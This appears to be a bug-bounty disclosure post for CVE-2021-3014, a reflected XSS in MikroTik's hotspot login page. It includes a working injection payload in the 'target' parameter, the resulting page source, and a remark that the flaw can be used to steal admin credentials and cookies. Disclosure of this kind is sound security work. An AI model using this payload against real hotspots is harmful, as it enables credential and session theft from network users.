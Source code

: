 ```yaml
---
layout: post
title:  "CVE-2021-3014 - MikroTik hotspot login XSS"
description: MikroTik hotspot login page is vulnerable to XSS-Reflected
Tags: exploits bugbounty
---
```


**Author** Mohammed Al-Barbari aka [@m4dm0e](https://twitter.com/m4dm0e)

**CVE-ID:** `CVE-2021-3014`

**Summary:** There is XSS-Reflected at the Mikrotik hotspot login page.

![image](../../../assets/images/Screenshot_2021-01-04_20-35-15.png)

**Description:** In the hotspot login page there is hidden input called `target` with a blank value so you can add any value into it just by adding a new parameter with the value you want and it will be reflected in the page source
e.g: `c.net/login?target=HelloAll`

source code :
```html
<input type="text" name="target" value="HelloAll" />
```

but also there are no filters over there so, you can escape the input tag and start a new value e.g: `?target=hhh" onSubmit="alert(0)`

page source : 
```html
<input type="text" name="target" value="hhh" onSubmit="alert(0)" />
```
after the victim clicks on the submit button the XSS fires!

![image](../../../assets/images/Screenshot_2021-01-04_20-34-48.png)


**How to exploit this?** 
Well, you have to be in the same network so you can play with this to get the admin user and password or cookies! also the users, with many techniques 

**PoC** 
There is a POC video that will share as soon as possible on my channel [GrodRiket Security](https://www.youtube.com/c/itgeeks)

